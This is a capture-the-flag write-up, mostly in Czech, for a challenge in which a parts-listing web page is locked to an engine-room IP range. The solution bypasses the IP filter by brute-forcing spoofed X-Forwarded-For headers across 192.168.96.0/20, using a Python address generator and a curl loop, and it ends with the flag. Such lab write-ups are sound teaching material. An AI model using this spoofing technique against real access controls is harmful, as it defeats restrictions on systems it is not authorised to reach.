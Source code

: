 # Component replacement

## Zadání

Ahoy, officer,

the ship had to lower its speed because of broken `fuel efficiency enhancer`. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range `192.168.96.0/20`. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at [http://key-parts-list.cns-jv.tcc](http://key-parts-list.cns-jv.tcc).

Hint 1: Use VPN

Hint 2: Try to bypass the IP address filter.

## Řešení

- přístup na web vyhodí chybu: `You are attempting to access from the IP address 10.200.0.18, which is not assigned to engine room. Access denied.`
- z jiného CTF zkušenost, že může pomoci úprava hlavičky
- Google dotaz na bypass pomocí hlavičky radí použít  [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For): `X-Forwarded-For: <client>, <proxy1>, <proxy2>`, například `X-Forwarded-For: 203.0.113.195`
- ze zadání vím, že původní IP byla z rozsahu 192.168.96.0/20
- skript pro generování IP: 
	```
	import ipaddress
	net = ipaddress.ip_network("192.168.96.0/20")
	for ip in net:
		print(str(ip))
	```
- všechny IP lze otestovat pomocí skrptu 
	```
	while read ipaddress; do
        curl -H "X-Forwarded-For: $ipaddress" http://key-parts-list.cns-jv.tcc/
        echo
	done < ./addresses.txt
	```
- spuštění výstupu do texťáku: `bash curl_script.sh | tee response.txt`
- vyhledání flagu: `grep -i "fuel efficiency enhancer" response.txt`

FLAG: `FLAG{MN9o-V8Py-mSZV-JkRz}`